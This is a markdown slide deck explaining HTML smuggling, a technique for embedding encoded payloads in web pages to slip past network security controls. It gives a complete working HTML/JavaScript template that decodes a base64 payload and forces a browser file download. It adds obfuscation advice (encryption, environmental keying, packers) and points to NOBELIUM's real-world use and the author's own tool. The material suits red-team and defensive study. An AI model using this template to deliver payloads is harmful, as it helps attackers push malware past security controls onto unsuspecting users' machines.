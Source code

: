 # HTML Smuggling

The following is my presentation on HTML smuggling, if interested check out my tool [smuggle-me](https://github.com/cyberbutler/smuggle-me) for your own html smuggling mischief.

---
### What is it?
A method for embedding ("smuggling") payloads into Web Pages using HTML/JavaScript to evade network security controls.

---
### How does it work?
---
<!-- slide style="font-size:.7em" -->
Encode the payload and embed into the following
```javascript
var f = atob("{{ b64payload }}");
```

---
<!-- slide style="font-size:.7em" -->
Convert the decoded payload to a byte array
```js

var binaryArray = new Uint8Array(f.length);
for ( let i = 0; i < f.length; i++ ) {
	binaryArray[i] = f.charCodeAt(i)
}

```

---
<!-- slide style="font-size:.7em" -->
Now its time for the file download portion. 

<small>Internet Explorer is *special*. We'll handle that first</small>

```js

if (window.navigator.msSaveBlob) {
	var blob = new Blob([binaryArray]);
	window.navigator.msSaveBlob(blob, "{{ filename }}");
} 
```

IE doesn't support the `File` APIs we will cover next

---
<!-- slide style="font-size:.7em" -->
For everything else, we use the `File` API to generate a ObjectURL and simulate a hyperlink click
```js
else {
	var file = new File([binaryArray], "{{ filename }}", {type: "{{mimetype}}"})
	var a = window.document.createElement("a");
	a.href = window.URL.createObjectURL(file);
	a.download = "{{ filename }}";
	document.body.appendChild(a);
	a.click();
	document.body.removeChild(a);
}
```
`window.URL.createObjectURL` creates a special `blob://` url which points to your file in the browser document's memory.

The `download` attribute will configure the hyperlink to save the file as the specified filename

---
### Put it all together
Embedded into an HTML file
<!-- slide style="font-size:.5em" -->
```html
<!Doctype html>
<html>
	<head></head>
	<body>
		<script>
			var f = atob("{{ b64payload }}");
			
			var binaryArray = new Uint8Array(f.length);
			for ( let i = 0; i < f.length; i++ ) {
				binaryArray[i] = f.charCodeAt(i)
			}
			
			if (window.navigator.msSaveBlob) {
				var blob = new Blob([binaryArray]);
				window.navigator.msSaveBlob(blob, "{{ filename }}");
			} else {
				var file = new File([binaryArray], "{{ filename }}", {type: "{{mimetype}}"})
				var a = window.document.createElement("a");
				a.href = window.URL.createObjectURL(file);
				a.download = "{{ filename }}";
				document.body.appendChild(a);
				a.click();
				document.body.removeChild(a);
			}
		</script>
	</body>
</html>
```

---
### Obfuscate it
- Additional Encoding
- Encryption
	- Environmental Keying
- JavaScript packers/minifiers/obfuscators
	- https://obfuscator.io/
	- https://webpack.js.org/

---
### In The Wild
[NOBELIUM](https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/)

![Pasted image 20221102101157.png](/Presentations/HTML%20Smuggling/Pasted%20image%2020221102101157.png)

---
### Lets try it

---
### Resources
<!-- slide style="font-size:.7em" -->
- https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/
- https://outflank.nl/blog/2018/08/14/html-smuggling-explained/
- https://github.com/nccgroup/demiguise
- https://github.com/cyberbutler/smuggle-me
